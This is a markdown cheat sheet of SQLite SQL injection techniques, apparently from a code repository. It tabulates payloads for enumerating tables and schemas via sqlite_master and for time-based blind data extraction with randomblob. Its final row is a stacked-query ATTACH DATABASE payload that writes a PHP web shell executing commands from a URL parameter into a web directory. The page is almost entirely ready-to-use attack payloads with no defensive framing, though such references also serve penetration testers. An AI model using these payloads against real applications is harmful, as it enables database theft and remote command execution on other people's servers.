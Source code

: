 # SQLite SQL Injection Cheat Sheet

|If you need                  |                                    You use                                      |
|-----------------------------|:-------------------------------------------------------------------------------:|
|Concatenation                |                                     \|\|                                        |
|Comments                     |                                      --                                         |
|Conditionals                 |  CASE WHEN key='value1' THEN 'something' WHEN key='value2' THEN 'somethingelse' |
|Substring                    |                          substr(string,start,stop)                              |
|Length                       |                              length(string)                                     |
|Quotes without literal quotes|              cast(X'27' as text)  *--use X'22' for double quotes*               |
|Table name enumeration       |               SELECT name FROM sqlite_master WHERE type='table'                 |
|Table schema enumeration     |                SELECT sql FROM sqlite_master WHERE type='table'                 |
|Time-based data extraction   |    cond='true' AND 1=randomblob(100000000) *--causes time delay if cond='true'* |
|File writing                 |1';ATTACH DATABASE ‘/var/www/lol.php’ AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES (‘<? system($_GET[‘cmd’]); ?>’;-- *--requires either direct database access or (non-default) stacked query option enabled*|


This work is based on http://atta.cked.me/home/sqlite3injectioncheatsheet
